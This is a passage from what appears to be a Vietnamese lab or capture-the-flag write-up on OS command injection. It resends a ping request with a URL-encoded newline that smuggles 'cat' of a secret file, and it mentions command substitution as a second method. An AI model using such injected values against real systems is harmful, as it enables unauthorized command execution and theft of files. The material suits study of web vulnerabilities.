     Thực hiện gửi lại gói tin với nội dung như sau:

    ```bash
    command=ping&target=8.8.8.8%0acat /3ef1cafd_secret.txt
    ``` 

    ![alt text](IMG/4/image.png)

- Ngoài ra ta còn có thể sử dụng lệnh sử dụng một cách khác ngoài cách chèn thêm một dấu `\n` trong gói tin `Request`. Sử dụng `command substitution` (mệnh lệnh thay thế).

    ![alt text](IMG/4/image-1.png)
